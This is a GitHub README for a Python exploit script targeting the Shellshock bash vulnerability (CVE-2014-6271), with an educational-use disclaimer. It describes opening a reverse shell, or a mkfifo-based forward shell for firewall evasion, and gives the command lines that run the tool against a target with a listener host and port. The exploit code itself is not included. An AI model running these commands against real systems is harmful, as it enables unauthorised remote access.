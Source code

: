 # Project Title

CVE-2014-6271 Shellshock

## Description

A python3 script for the CVE-2014-6271 Shellshock exploit that creates a reverse shell <br> 
or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* With python3
```
python3 shellshock.py -t http://exploitshellshock.blah -lhost 127.0.0.1 -lport 9001
```
<br>
* For forward shell firewall evasion
```
python3 shellshock.py -t http://exploitshellshock.blah -fs
```

## Help

For help menu:
```
python3 shellshock.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.